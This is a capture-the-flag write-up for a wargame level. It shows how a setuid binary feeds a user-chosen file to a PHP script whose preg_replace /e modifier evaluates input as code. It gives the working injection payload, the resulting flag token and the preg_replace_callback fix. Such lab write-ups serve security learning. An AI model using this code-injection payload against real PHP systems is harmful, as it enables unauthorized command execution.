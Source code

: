# level06

## Initial Clue
once logged into level06 we find 2 files:
- `level06.php` => it defines two functions (x and y) and processes the content of a file specified as a command-line argument ($y). The content is manipulated using regular expressions, and the final result is printed.

- `level06` => if we `file level06`we find out that it is an executable: 
```
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaabebdcd979e47982e99fa318d1225e5249abea7, not stripped
```

## Relationship between the 2 files
- Attempting to execute level06 results in the following message:
```
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
- What does this mean? It indicates that the PHP script level06.php is attempting to use file_get_contents() on an empty filename. But why is level06.php involved when we try to execute `./level06`? While we can't access the source code of the binary executable (we attempted to disassemble it with `objdump -d level06 > level06_disassembly.txt` but it was not useful), it's evident that the executable takes a file as an argument and passes it to the level06.php script.

## Vulnerability inside level06.php
- Upon closer inspection of the script, we discover that it uses the preg_replace method, which allows for replacing a pattern with a string within a string using regular expressions. The issue arises from the fact that until recently it was possible to use the /e modifier to evaluate the replacement string as PHP code (the `/e modifier` was removed from PHP as of version 7.0, but this exercise hasn't been updated, and in any case, hackers can still potentially exploit PHP scripts created prior to this change). Our script precisely utilizes the `/e modifier` in this line:
```
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

## Implications
- This means that if we pass a file containing the pattern `[x (.*)\]` to level06 as an argument, it will pass it to `level06.php`, and whatever is included in the `(.*)` argument of x will be executed (\\2 being the second element of the pattern).
- Hence, we create a file in the only location where we have permission to create a file, /tmp, containing the command we want the script to execute: `echo '[x {${exec(getflag)}}]' > /tmp/getflag`. Then, we pass this file as an argument when launching level06: `./level06 /tmp/getflag`, obtaining the flag:
```
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

NB 
Starting with PHP 7.0, the /e modifier has been replaced with a callback function to mitigate this vulnerability. Instead of using preg_replace, it's mandatory to use preg_replace_callback with a callback function instead of the replacement string. So, in our case, the script should have been:
```
$a = preg_replace_callback("/(\[x (.*)\])/", function($matches) { return y($matches[2]); }, $a);
```


